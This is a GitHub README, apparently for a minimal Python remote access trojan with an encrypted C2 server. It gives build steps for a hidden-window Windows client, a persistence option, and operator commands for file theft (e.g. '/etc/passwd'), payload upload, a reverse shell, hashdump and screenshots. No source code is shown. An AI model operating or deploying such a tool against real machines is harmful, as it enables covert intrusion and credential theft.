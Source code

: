 ## Python RAT

### Introduction

This project is a minimal implementation of a Client-Server RAT.

### Install

In order to install the dependencies, you must run the following command: (with or without venv, as you wish)

```bash
pip install -r requirements.txt
```

The server encrypts the communication with the agents. You must generate a private key and a certificate for the server. You can do it by running the following command:

1. Generate the private key:
```bash
openssl genpkey -algorithm RSA -out server.key
```
2. Generate the csr from the private key:
```bash
openssl req -new -key server.key -out server.csr
```
3. Sign the csr with the private key:
```bash
openssl x509 -req -days 365 -in server.csr -signkey server.key -out server.crt
```

Please, name the files as `server.key` and `server.crt` and place them in the `C2` directory.

### Build

#### Linux

As agreed, the linux client will be executed by the python interpreter. So, no build is required. However, you must install the dependencies before.

#### Windows

For Windows client, you must additionally compile the client by running the following command: (`pyinstaller` must be installed in the previous step)

```bash
pyinstaller --noconsole --onefile main.py
```

or

```bash
python3 -m PyInstaller --noconsole --onefile main.py
```

`--noconsole` means that no window will pop up when the executable is executed.

You must find the executable in the `dist` directory.

If you got an error, check [this](https://pyinstaller.org/en/stable/installation.html#troubleshooting-missing-pyinstaller-command).

### Usage
#### Client

```
usage: main.py [-h] [-d] [--ip IP] [--port PORT] [--persistence]

Client for the C2

options:
  -h, --help     show this help message and exit
  -d, --debug    Enable debug mode
  --ip IP        Server IP (default: 127.0.0.1)
  --port PORT    Server Port (default: 8888)
  --persistence  Enable persistence
```

You can run the client by executing the following command:

```bash
python3 main.py
```

#### Server

In order to start the server, you must specify the listening port as the first argument: (`C2` folder)

```bash
python3 main.py YOUR_PORT
```

### Available commands on the server
```
<command> [args]
====================
agents      : List all connected agents
agent       : Select an agent by ID | ID: Integer | Ex: agent 3
bg          : Deselect the current agent
kill        : Kill an agent by id | ID: Integer | kill 4
exec        : Execute a system command in the local machine
help        : Show this help message
exit        : Exit the server
==================== ONCE AGENT SELECTED:
download    : Download the specified files | FILE: String | Ex: download /etc/passwd /etc/hosts
upload      : Upload a file to selected target | LOCAL_FILE: String   REMOTE_DEST: String | upload payload.exe /tmp/payload.exe
search      : Search a file on the target's filesystem 
shell       : Open a reverse shell from the selected agent (type exit to quit the shell) (not interactive)
hashdump    : Dump the hashes from the target (may crash on Windows)
ipconfig    : Retrieve the IP Configuration from the current target 
screenshot  : Take a screenshot from the selected agent, you can optionally specify a name for the screenshot | Optional: FILE: String | screenshot [my_screenshot]
====================
```

### Misc

### Files structure

```
- C2/
    - main.py: Start the server, should be run with python
    - server.py: Server class, handles the communication with the agents
    - server.key: Private key for the server
    - server.crt: Certificate for the server
    - symbols.py: Custom codes for the communication
    - agent.py: Agent class
- Client/
    - client.py: Client mother class, points to the correct client depending on the OS
    - linuxClient.py: Linux client class
    - windowsClient.py: Windows client class
    - symbols.py: Custom codes for the communication, must be the same as the server. Redundant because of the portability.
```

### Heartbeat

The program got a heartbeat system. One run, agents send frequently a little packet with their ID to the server in order
to keep them alive from the server side.

The client stay alive even if the server is down and the server update its agent table when the client is down.